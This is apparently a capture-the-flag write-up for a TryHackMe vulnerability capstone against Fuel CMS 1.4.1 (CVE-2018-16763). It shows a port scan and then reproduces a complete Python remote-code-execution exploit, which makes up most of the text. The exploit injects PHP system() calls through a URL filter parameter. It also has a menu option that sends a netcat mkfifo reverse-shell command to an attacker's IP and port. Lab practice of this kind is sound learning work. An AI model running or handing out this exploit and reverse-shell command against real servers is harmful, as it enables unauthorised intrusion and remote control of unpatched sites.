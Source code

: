 # Vulnerability Capstone

![](https://i.imgur.com/EBn7Nuf.png)

### Question 1
- What is the name of the application running on the vulnerable machine?
after running a scan on the IP Address i found open ports

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV 10.10.42.79 -T4     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-02 09:16 EST
Nmap scan report for 10.10.42.79
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.17 seconds
```
there is a web-server running on port `80` so i navigate to the site and found:
![](https://i.imgur.com/64K0T63.png)

### Question 2
- What is the version number of this application?
from the last screenshot we will find the answer

### Question 3
- What is the number of the CVE that allows an attacker to remotely execute code on this application?
 **Format:** CVE-XXXX-XXXXX
  
 ![](https://i.imgur.com/dPlwVqK.png)
searching for exploit for the service and version running i got the above result and also know that i can get RCE from the server.

if we click on the first search result we will find the CVE number
![](https://i.imgur.com/TTZiPfI.png)

i downloaded the exploit but it didn't work so i decide to use the exploit from `tryhackme` attackbox
![](https://i.imgur.com/4SRug1n.png)

###  Attackbox exploit

```python
#!/usr/bin/python3

# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763
# 
# Poc Created by Ac1d (assassin) 



import requests
import sys
import urllib

from requests.sessions import extract_cookies_to_jar

class col:
    HEADER = '\033[95m'
    BLUE = '\033[94m'
    CYAN = '\033[96m'
    GREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    RESET = '\033[0m'
    BLACK = "\033[0;30m"
    RED = "\033[0;31m"
    GREEN = "\033[0;32m"
    BROWN = "\033[0;33m"
    BLUE = "\033[0;34m"
    PURPLE = "\033[0;35m"
    LIGHT_GRAY = "\033[0;37m"
    DARK_GRAY = "\033[1;30m"
    LIGHT_RED = "\033[1;31m"
    LIGHT_GREEN = "\033[1;32m"
    YELLOW = "\033[1;33m"
    LIGHT_BLUE = "\033[1;34m"
    LIGHT_PURPLE = "\033[1;35m"
    LIGHT_CYAN = "\033[1;36m"
    LIGHT_WHITE = "\033[1;37m"
    BOLD = "\033[1m"
    FAINT = "\033[2m"
    ITALIC = "\033[3m"
    UNDERLINE = "\033[4m"
    BLINK = "\033[5m"
    NEGATIVE = "\033[7m"
    CROSSED = "\033[9m"


def banner():
    banner = r"""
 ______         _ _____ ___  ___ _____ 
|  ___|        | /  __ \|  \/  |/  ___|
| |_ _   _  ___| | /  \/| .  . |\ `--. 
|  _| | | |/ _ \ | |    | |\/| | `--. \
| | | |_| |  __/ | \__/\| |  | |/\__/ /
\_|  \__,_|\___|_|\____/\_|  |_/\____/ 
Tested on 1.4                                       
"""
    banner += "Created by Ac1d"
    return col.LIGHT_BLUE + banner + col.RESET


def help():
    banner = col.LIGHT_WHITE + "\n\tMenu\n"
    banner += col.LIGHT_GREEN
    banner += "\nexit     -\tExit app"
    banner += "\nshell_me -\tGet a reverse shell (netcat) "
    banner += "\nhelp     -\tShow this help\n"+ col.RESET
    return banner
    


print(banner())
print(help())

#http://10.10.12.27/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27ls%20-la%27)%2B%27

if len(sys.argv) != 2:
    print("\nUsage: python3 exploit.py Vulnerable IPADDRESS")
    sys.exit(0)

IP=sys.argv[1]

def parsePage(page):
    try:            
        page = page.split("<h4>A PHP Error was encountered</h4>")[0]
        page = page.split("<div")[0]
        page = page[6:]
        return page
    except:
        return False

try:
        
    while True:
        cmd = input(col.LIGHT_WHITE +"fuelCMS$ " + col.RESET)

        if cmd[0:4].lower() == "exit":
            print(col.RED + "Exiting..." + col.RESET)
            sys.exit(0)

        if cmd[0:8] == "shell_me":
            IP2, PORT = input(col.LIGHT_BLUE + "Enter your attacking machine IP:PORT $ " + col.RESET).split(":")
            nc = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {IP2} {PORT} >/tmp/f"
            cmd = nc
            print(col.LIGHT_GREEN + "\nHope you had your listener ready!!" + col.RESET)
            
        if cmd[0:4] == "help":
            print(help())
            continue
        
        if not "/tmp/f;mkfifo" in cmd:
            print(col.LIGHT_GRAY + "Sending request." + col.RESET)
        cmd = urllib.parse.quote(cmd)
        r = requests.get(f"http://{IP}/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27"+ cmd +"%27)%2B%27")
        if r.status_code == 200:
            page = parsePage(r.text)
            if page == "\n":
                print(col.RED + "No result" + col.RESET)
                continue
            print(col.LIGHT_GREEN+ f"\n{page.strip()}" + col.RESET)

except Exception as e:
    print(col.RED + f"An error occured, please try again...\n\n{e}" + col.RESET)
```

running this exploit and selecting the `shell_me` option then i specify my listening `IP:PORT` and i got a reverse shell
![](https://i.imgur.com/en6196R.png)
navigating to `/home/ubuntu` i found the flag 
![](https://i.imgur.com/TgTBD15.png)

# Thanks For Reading

